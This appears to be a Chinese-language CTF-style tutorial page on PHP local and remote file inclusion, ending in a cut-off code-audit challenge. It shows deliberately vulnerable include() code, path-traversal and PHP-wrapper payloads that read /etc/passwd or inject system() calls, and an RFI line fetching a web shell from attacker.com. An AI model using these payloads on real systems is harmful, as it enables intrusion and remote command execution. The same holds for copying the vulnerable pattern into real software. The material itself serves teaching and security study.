 ## 文件包含漏洞

### 本地文件包含 (LFI)

```php
<?php
// 存在漏洞的代码
$page = $_GET['page'];
include($page . '.php');
?>
```

**利用方法：**
```bash
# 读取敏感文件
?page=../../../etc/passwd
?page=../../../var/log/apache2/access.log

# 目录遍历
?page=....//....//....//etc/passwd

# NULL字节绕过（PHP < 5.3.4）
?page=../../../etc/passwd%00

# 伪协议利用
?page=php://filter/read=convert.base64-encode/resource=index.php
?page=data://text/plain,<?php phpinfo();?>
?page=php://input  # POST数据：<?php system($_GET['cmd']);?>
```

### 远程文件包含 (RFI)

```php
<?php
// allow_url_include = On 时可利用
include($_GET['file']);
?>
```

```bash
# 远程包含恶意文件
?file=http://attacker.com/shell.txt

# shell.txt内容：
<?php system($_GET['cmd']); ?>
```

## 代码审计挑战

### PHP 代码审计示例

```php
<?php
// 题目代码
class User {
    public $username;
    public $password;
    
    public function __construct($username, $password) {
        $this->username = $username;
        $this->password = $password;
    }
    
    public function login() {
        if ($this->username === 'admin' && $this->password === 'admin123') {
```